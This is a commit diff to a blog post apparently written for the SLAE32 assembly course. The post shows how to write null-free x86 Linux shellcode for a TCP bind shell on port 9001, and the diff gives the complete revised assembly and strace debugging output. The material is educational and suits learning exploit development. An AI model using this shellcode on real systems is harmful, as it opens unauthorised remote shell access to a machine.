

Before and after one commit to crawl3r/crawl3r.github.io, a Jekyll site: the page built from _posts/2020-01-07-slae32_tcp_bind_shell.md, in a window 1280 px wide and 1400 px high, scrolled down 14299 px. Shown: the whole window, without its empty margins (208-1073 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-01-07-slae32_tcp_bind_shell.md
fixed all code samples, outputs and change the writing to reflect the confirmed changes.

````diff
--- a/_posts/2020-01-07-slae32_tcp_bind_shell.md
+++ b/_posts/2020-01-07-slae32_tcp_bind_shell.md
@@ -489,85 +489,124 @@ _start:
 After dumping the hex from the executable, I noticed that there were a tonne of null bytes within the output - which is not good for our payload. In order to remove these, a second draft needs to be looked into and come up with a way to use the same instructions with no null bytes remaining.
 
 ## Second Draft:
-After playing around with the script for a while and testing a few things, I was able to narrow down the total instructions needed to still successfully create a working TCP bind shell. The instructions removed are relatively trivial, but it will help pull down the overall byte size of the hex payload. The main changes I made to the assembly were:
+After playing around with the script for a while and testing a few things, I was able to tweak the script a little to remove some bloat and still successfully create a working TCP bind shell. The changes are relatively trivial, but it should help pull down the overall byte size of the payload (marginal), but ultimately it helped me learn some new tricks in x86 such as loops. The main changes I made to the assembly were:
+
 * removed all xor instructions used to clear a register before moving a value into it
-    * I realised that the mov instruction seems to just overwrite the value, no need to 0 it
-* removed the 3 separate dup2 chunks and instead added a decrementing loop, using the value of the counter as the 2nd parameter value in ECX
+    * after removing each of these, I realised that this led to issues when making the system calls. I used strace to attempt to see what was going on. Looking at the following output snippet, we can see that the registers must have had junk left over before using them for our call - resulting in garbage values.
+
+ ```
+ root@kali:~/Documents/slae32/exercise_1/second_bind_shell# strace ./second_bind_shell
+execve("./second_bind_shell", ["./second_bind_shell"], 0xbfe76800 /* 41 vars */) = 0
+socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
+bind(3, {sa_family=AF_INET, sin_port=htons(9001), sin_addr=inet_addr("1.0.0.0")}, 16) = -1 EADDRNOTAVAIL (Cannot assign requested address)
+syscall_0xffff016b(0x3, 0, 0x10, 0, 0x3, 0) = -1 ENOSYS (Function not implemented)
+syscall_0xffff016c(0x3, 0, 0, 0, 0x3, 0) = -1 ENOSYS (Function not implemented)
+syscall_0xffffff3f(0xffffffda, 0x2, 0, 0, 0xffffffda, 0) = -1 ENOSYS (Function not implemented)
+syscall_0xffffff3f(0xffffffda, 0x1, 0, 0, 0xffffffda, 0) = -1 ENOSYS (Function not implemented)
+syscall_0xffffff3f(0xffffffda, 0, 0, 0, 0xffffffda, 0) = -1 ENOSYS (Function not implemented)
+execve("//bin/sh", [], 0xbf992980 /* 0 vars */) = 0
+```
+
+For example, we can see that our hex value used for a system call (0x016c) exists, however the actual value it is attempting to call is 0xffff016b. This is because we only wrote to the lower half of the register using al, leaving anything already in the higher half of the address. After noticing this, I returned to XOR'ing most of the registers before moving values into them. Especially if I was targetting the lower half (al), to ensure the rest of the memory was zeroed.
+
+* removed the 3 separate dup2 chunks and instead added a decrementing loop, using the value of the counter as the 2nd parameter value in ECX. Each iteration would decrement the ECX value down to 0 and check the current value before continuing the loop. If our value was not 0, we would jump back to the beginning of the loop and repeat our previous steps. If our value was 0, we have succesfully called dup2 three seperate times with the 2, 1 and 0 values in the 2nd parameter (ECX) and can safely exit the loop.
 * when using a register to move values into them, use the lower half of the register only
-    * For example, EAX becomes AL or AX (depending on the size of the value), EBX becomes BL, and so on.
+    * For example, EAX becomes AL or AX (depending on the size of the value), EBX becomes BL, and so on. Ultimately, this was done to prevent any NULL bytes (\x00) from existing in my final payload.
 
-The total source can be seen here:
+The total source of our second bind shell attempt can be seen here:
 
 ```
-global  _start
+global	_start
 section .text
 
 _start:
-    ; SOCKET SYSCALL
-    mov eax, 0x167
-    mov ebx, 0x2
-    mov ecx, 0x1
+	xor eax, eax
+	xor ebx, ebx
+	xor ecx, ecx
+	xor edx, edx
 
-    int 0x80
-    mov edi, eax
+	; SOCKET SYSCALL
+	; socket is the first syscall we want with syscall number is 359 (0x167)
+	; EAX = syscall number, ebx = param 1 (2), ecx = param 2 (1), edx = param 3 (0)
+	mov ax, 0x167
+	mov bl, 0x2
+	mov cl, 0x1
+	; we don't do anything with edx as 0 already exists from the xor above
 
-    ; BIND syscall
-    mov eax, 0x169
-    mov ebx, edi
+	int 0x80 ; this interrupt signal handles the syscall
+	mov edi, eax ; store the return value in edi for future ref
 
-    ; create our sockaddr struct in memory, used with bind() call, 2nd param
-    xor ecx, ecx
-    push ecx
-    push ecx
-    push word 0x2923
-    push word 0x2
+	; BIND syscall
+	xor eax, eax
+	mov ax, 0x169	; move 361 into syscall register
+	mov ebx, edi	; move fd (edi val) into ebx - param 1
 
-    mov ecx, esp
-    mov edx, 16
-    int 0x80
+	; create our sockaddr struct in memory, used with bind() call, 2nd param
+	xor ecx, ecx
+	push ecx	 ; push the 0 onto the stack (4th struct value)
+	push ecx  	 ; push the 0 onto the stack (Address)
+	push word 0x2923 ; push the port onto stack  (0x2329) (PORT NUM = 9001)
+	push word 0x2	 ; push 2 onto the stack     (AF_INET)
 
-    ; LISTEN syscall 363
-    mov eax, 0x16b
-    mov ebx, edi
-    xor ecx, ecx
-    int 0x80
+	mov ecx, esp	; store the current stack pointer into ecx, points at struct
+	xor edx, edx
+	mov dl, 16	; this parameter takes the length of the addr (param 3)
+	int 0x80	; syscall
 
-    ; ACCEPT syscall 364
-    mov eax, 0x16c
-    mov ebx, edi
-    xor ecx, ecx
-    xor edx, edx
-    xor esi, esi
-    int 0x80
-    mov edi, eax         ; back up the fd value in edi again
+	; LISTEN syscall 363
+	xor eax, eax
+	mov ax, 0x16b  ; move 363 into register (syscall number)
+	mov ebx, edi    ; this should still be return val from socket() -> fd
+	xor ecx, ecx    ; clean out ecx as the 2nd param value should be 0
+	int 0x80	; syscall
 
-    ; DUP2 syscall (3 times)
-    mov ecx, 0x3         ; set counter register to 3 for counting down in the loop
+	; ACCEPT syscall 364
+	xor eax, eax
+	mov ax, 0x16c	; move 364 into register (syscall number)
+	mov ebx, edi	; this should still be return val from socket() -> fd
+	xor ecx, ecx	; zero out 2nd param (NULL)
+	xor edx, edx	; zero out 3rd param (NULL)
+	xor esi, esi
+	int 0x80	; syscall
 
-    for_loop_dup2:
-    mov eax, 0x3f
-    mov ebx, edi
-    dec ecx              ; decrement our counter before the syscall (should be 2, 1, 0)
-    int 0x80
+	; accept() returns a new fd value, so let's store this one off too
+	mov edi, eax	; back up the fd value in edi again
 
-    jnz for_loop_dup2    ; if count is not 0, jump back to the start of the loop
+	; DUP2 syscall (3 times)
+	xor ecx, ecx
+	mov cl, 0x3	; set counter register to 3 for counting down in the loop
 
-    ; EXECVE() syscall
-    xor eax, eax
-    push eax
+	for_loop_dup2:
+	xor eax, eax
+	mov al, 0x3f
+	mov ebx, edi
+	dec cl		; decrement our counter before the syscall (should be 2, 1, 0)
+	int 0x80
 
-    push 0x68732f6e
-    push 0x69622f2f
-    mov ebx, esp
+	jnz for_loop_dup2	; if ecx is not equal to 0, keep going
 
-    push eax
-    mov ecx, esp
+	; EXECVE() syscall
+	xor eax, eax	; zero out eax ready for pushing 0s on to the stack
+	push eax	; push first zero on, align the stack?
 
-    push eax
-    mov edx, esp
+	; "/bin/sh" in hex is 0x2f 0x62 0x69 0x6e 0x2f 0x73 0x68
+	; we flip these because it's little endian
+	; 0x68732f6e, 0x69622f
 
-    mov eax, 0xb
-    int 0x80
+	push 0x68732f6e
+	push 0x69622f2f	; note the // at the end, sigsevs without - junk corrupting it?
+
+	mov ebx, esp	; push the addr of our above string (esp) into 1st param
+
+	push eax        ; push 0 onto the stack (2nd param == NULL)
+    mov ecx, esp    ; requires a pointer - man page has them for usage
+
+	push eax	; push 0 onto the stack (3rd param == NULL)
+	mov edx, esp	; requires a pointer - man page has them for usage
+
+    mov al, 0xb    ; move 11 into EAX register (syscall number)
+
+	int 0x80	; final syscall
 ```
 
 Dumping the hex for usage:
@@ -686,4 +726,4 @@ pwd
 ```
 
 ## Additional:
-todo
+todo - amend this section to include any course details ready for submission. For now, the write ups will just be live.
````
Also changed, not shown: other parts of _posts/2020-01-07-slae32_tcp_bind_shell.md (+28 -27 lines).
